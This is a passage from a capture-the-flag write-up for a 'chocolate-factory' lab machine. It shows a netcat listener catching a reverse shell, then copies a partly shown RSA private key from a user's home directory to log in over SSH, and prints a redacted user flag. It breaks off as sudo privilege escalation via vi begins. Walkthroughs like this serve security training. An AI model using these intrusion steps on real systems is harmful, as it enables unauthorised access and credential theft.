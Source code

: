 -----------

## Reverse Shell

Using the python reserve shell found here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

    └─$ nc -lvnp 8080
    listening on [any] 8080 ...
    connect to [10.8.113.148] from (UNKNOWN) [10.10.239.50] 39660
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    www-data@chocolate-factory:/var/www/html$ whoami
    whoami
    www-data

-----------

## Find Key
Navigating to Charlie's home directory, there is a public/private key pair. We can make a copy of the private key on our machine and then login as charlie through ssh.

    www-data@chocolate-factory:/home/charlie$ cat teleport
    cat teleport
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
    1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
    L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
    B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
    fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE

Once in as Charlie, we can read the contents of the user.txt flag:

    charlie@chocolate-factory:/home/charlie$ ls -al
    total 40
    drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
    drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
    -rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
    drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
    drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
    drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
    -rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
    -rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
    -rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
    -rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
    charlie@chocolate-factory:/home/charlie$ cat user.txt 
    flag{cd550[Redacted]b522d2e}

------------

# Privilege Escalation   
## Sudo -l 
 Running sudo -l tells us we can use vi with sudo privileges:
